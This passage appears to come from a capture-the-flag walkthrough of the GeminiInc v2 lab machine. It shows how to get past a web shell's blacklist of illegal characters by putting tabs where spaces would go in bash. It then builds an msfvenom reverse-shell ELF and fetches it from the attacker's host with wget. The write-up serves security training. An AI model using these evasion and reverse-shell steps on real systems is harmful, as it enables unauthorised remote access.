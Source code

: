 ![0.747hclxg2ig](/assets/images/posts/geminiinc-v2-walkthrough/0.747hclxg2ig.png)

Recall the file `blacklist.txt` uncovered during fuzzing? It had a test for illegal characters in the `testcmd` parameter. Here we have a readily available web shell that executes commands, yet we have to get pass the test for illegal characters. What a bummer!

![0.y241xdjfa4g](/assets/images/posts/geminiinc-v2-walkthrough/0.y241xdjfa4g.png)

### Execute Command

The most common shell in Linux distributions is `bash` and it uses whitespace as the separator for command execution. For example, in this command `wget -O /tmp/rev 192.168.10.128/rev`, the space character is the separator. In fact, `bash` defines space, tab, and the newline character as whitespace. In other words, we can substitute space with tab in the previous command and it should execute.

With this in mind, let's generate a reverse shell with `msfvenom` and name it as `rev`; host it with Python's `SimpleHTTPServer`, and execute `wget` in the **Execute Command** page to copy it over. The aim would be to execute the reverse shell in the **Execute Command** page.

```
# msfvenom -p linux/x64/shell_reverse_tcp LHOST=192.168.10.128 LPORT=4444 -f elf -o rev
No platform was selected, choosing Msf::Module::Platform::Linux from the payload
No Arch selected, selecting Arch: x64 from the payload
No encoder or badchars specified, outputting raw payload
Payload size: 74 bytes
Final size of elf file: 194 bytes
Saved as: rev
```
